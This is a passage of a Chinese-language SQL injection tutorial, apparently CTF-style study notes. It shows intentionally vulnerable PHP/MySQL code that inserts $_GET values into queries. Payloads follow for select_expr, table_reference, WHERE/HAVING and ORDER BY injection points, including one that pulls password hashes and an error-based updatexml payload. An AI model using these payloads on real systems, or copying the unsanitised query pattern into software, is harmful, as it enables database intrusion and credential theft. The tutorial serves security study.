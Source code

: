 > select 语句用于数据表记录的查询，常在界面展示的过程中使用

#### [](#1311-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-select_expr)13.1.1 注入点在 select\_expr

源代码如下所示：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```php<br><?php<br>    $conn = mysqli_connect("127.0.0.1", "root", "root", "test");<br>	$res = mysqli_query($conn, "SELECT ${_GET['id']}, content FROM wp_news");<br>	$row = mysqli_fetch_array($res);<br>	echo "$row['title']";<br>	echo "$row['content']";<br>?><br>``` |

可以采取时间盲注的方式，但是根据 MySQL 的语法，有更优的解决方法，即利用 AS 别名的方法，直接将查询的结果显示到界面中。

**payload**：`?id=(select pwd from wp_user as title)`

#### [](#1312-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-table_reference)13.1.2 注入点在 table\_reference

上文的 SQL 查询语句改为：`$res = mysqli_query($conn, "SELECT title FROM ${_GET['table']}");`

仍然可以利用别名的方式直接取出数据

`select title from (select pwd AS title from wp_user)x`

技巧

在不知表名的情况下，可以先从 information\_schema.tables 中查询表名。

在 select\_expr 和 table\_reference 的注入，如果注入的点有反引号包裹，那么需要先闭合反引号。

#### [](#1313-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-where-%E6%88%96-having-%E5%90%8E)13.1.3 注入点在 WHERE 或 HAVING 后

SQL 语句：`$res = mysqli_query($conn, "SELECT title FROM wp_news WHERE id=${_GET[id]}")`

实战中最常遇到的情况，要先判断有无引号包裹，再闭合前面可能存在的括号，即可进行注入来获取数据。注入点在 HAVING 后的情况与之相似。

#### [](#1314-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-group-by-%E6%88%96-order-by-%E5%90%8E)13.1.4 注入点在 GROUP BY 或 ORDER BY 后

##### [](#13141-%E5%88%A9%E7%94%A8%E6%8A%A5%E9%94%99)13.1.4.1 利用报错

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from wp_user_ order by 1\|updatexml(1,concat(0x7e,database(),0x7e),0)<br>``` |

1105 - XPATH syntax error: ‘~sectest~’, Time: 0.000000s

##### [](#13142-%E5%88%A9%E7%94%A8%E5%BB%B6%E6%97%B6)13.1.4.2 利用延时

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>$res = mysqli_query($conn, "SELECT title FROM wp_news GROUP BY ${_GET['title']}");<br>``` |
